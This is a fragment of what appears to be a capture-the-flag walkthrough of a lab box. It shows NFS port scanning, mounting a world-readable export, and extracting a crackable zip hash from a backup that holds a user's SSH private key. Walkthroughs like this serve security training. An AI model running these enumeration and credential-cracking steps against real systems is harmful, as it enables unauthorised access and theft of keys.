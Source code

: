 ```bash
|   100005  1,2,3      44811/tcp6  mountd
|   100005  1,2,3      57678/udp6  mountd
|   100021  1,3,4      38463/tcp6  nlockmgr
|   100021  1,3,4      40921/udp6  nlockmgr
|   100021  1,3,4      43225/tcp   nlockmgr
|   100021  1,3,4      45262/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
```

```bash
:~/TheServerFromHell# showmount -e TargetIP
Export list for TargetIP:
/home/nfs *
```

```bash
:~/TheServerFromHell# sudo mount 10.10.185.234:/home/nfs ~/TheServerFromHell/mount/nfs
```

```bash
:~/TheServerFromHell/mount/nfs# ls
backup.zip
```

<h3>Zip2John</h3>

```bash
# zip2john backup.zip > hash
ver 1.0 backup.zip/home/hades/.ssh/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=2107, decmplen=3369, crc=6F72D66B type=8
ver 1.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/hint.txt PKZIP Encr: 2b chk, TS_chk, cmplen=22, decmplen=10, crc=F51A7381 type=0
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/authorized_keys PKZIP Encr: 2b chk, TS_chk, cmplen=602, decmplen=736, crc=1C4C509B type=8
ver 1.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=45, decmplen=33, crc=2F9682FA type=0
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa.pub PKZIP Encr: 2b chk, TS_chk, cmplen=602, decmplen=736, crc=1C4C509B type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```



```bash
# cat hash
backup.zip:$pkzip2$3*2*1*0*8*24*1c4c*b16d*7d8849d53ca2d690df91b5f8ff302e0eae9c13c7fbb169b6d935abdfef8c00e339f84c09*1*0*8*24*6f72*b16d*7168a30d9a64dc6df0956c675b62ff980dbd4f16fe022b1abb1c75e1943c97e47bbdc5f5*2*0*16*a*f51a7381*8e5*52*0*16*f51a*b16d*5050fa8c08f92051a2cad9941e8a8f4522a8c5dbfa32*$/pkzip2$::backup.zip:home/hades/.ssh/hint.txt, home/hades/.ssh/authorized_keys, home/hades/.ssh/id_rsa:backup.zip
```
